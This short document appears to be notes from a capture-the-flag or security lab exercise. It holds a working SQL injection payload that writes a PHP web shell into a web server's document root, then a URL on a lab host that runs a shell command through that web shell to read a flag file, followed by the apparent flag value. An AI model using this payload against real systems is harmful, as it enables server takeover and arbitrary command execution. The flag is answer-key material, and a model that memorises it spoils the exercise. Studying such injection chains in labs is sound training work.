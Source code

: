 
`cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -`

Exercise:
Find the flag using webshell:
http://94.237.62.255:46120/shell.php?0=cat%20../flag.txt
d2b5b27ae688b6a0f1d21b7d3a0798cd

